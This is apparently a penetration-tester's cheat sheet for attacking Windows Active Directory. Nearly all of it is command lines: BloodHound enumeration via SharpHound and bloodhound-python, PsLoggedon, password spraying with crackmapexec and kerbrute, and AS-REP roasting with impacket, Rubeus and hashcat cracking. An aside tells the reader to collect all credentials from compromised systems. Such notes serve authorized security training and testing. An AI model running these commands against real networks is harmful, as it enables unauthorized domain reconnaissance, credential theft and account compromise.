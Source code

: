 ### Bloodhound

- Collection methods - database

```bash
# Sharphound - transfer sharphound.ps1 into the compromised machine
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # collects and saved with the specified details, output will be saved in windows compromised machine

# Bloodhound-Python
bloodhound-python -u 'uname' -p 'pass' -ns <rhost> -d <domain-name> -c all #output will be saved in you kali machine
```

- Running Bloodhound

```bash
sudo neo4j console
# then upload the .json files obtained
```

### PsLoggedon

```bash
# To see user logons at remote system of a domain(external tool)
.\PsLoggedon.exe \\<computername>
```

## **Attacking Active Directory Authentication**

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.

</aside>

### Password Spraying

```bash
# Crackmapexec - check if the output shows 'Pwned!'
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #use continue-on-success option if it's subnet

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### AS-REP Roasting

```bash
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request #this gives us the hash of AS-REP Roastable accounts, from kali linux
.\Rubeus.exe asreproast /nowrap #dumping from compromised windows host

hashcat -m 18200 hashes.txt wordlist.txt --force # cracking hashes
```

